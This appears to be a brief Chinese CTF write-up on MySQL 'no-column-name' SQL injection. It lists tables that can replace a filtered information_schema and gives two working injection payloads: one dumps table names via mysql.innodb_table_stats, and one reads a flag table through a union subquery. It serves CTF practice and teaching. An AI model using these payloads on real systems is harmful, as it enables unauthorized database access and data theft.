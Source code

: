 # 知识点
### 无列名注入
[CTF|mysql之无列名注入](https://zhuanlan.zhihu.com/p/98206699)
### mysql统计
[概述MySQL统计信息_Mysql_脚本之家](https://www.jb51.net/article/134678.htm)
### 能够代替information_schema.tables的表
mysql.innodb_table_stats<br />mysql.innodb_index_stats<br />sys.schema_auto_increment_columns<br />sys.x$schema_flattened_keys<br />sys.schema_table_statistics_with_buffer
# 思路
如果information_schema被禁，可以尝试使用表mysql.innodb_table_stats和mysql.innodb_index_stats或者sys.schema_auto_increment_columns
```plsql
# 通过mysql.innodb_table_stats获取表名
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats)%23
# 无列名注入获取flag
password=\&username=,username=(select `2` from (select 1,2,3 union select * from flag23a1)a limit 1,1)%23
```

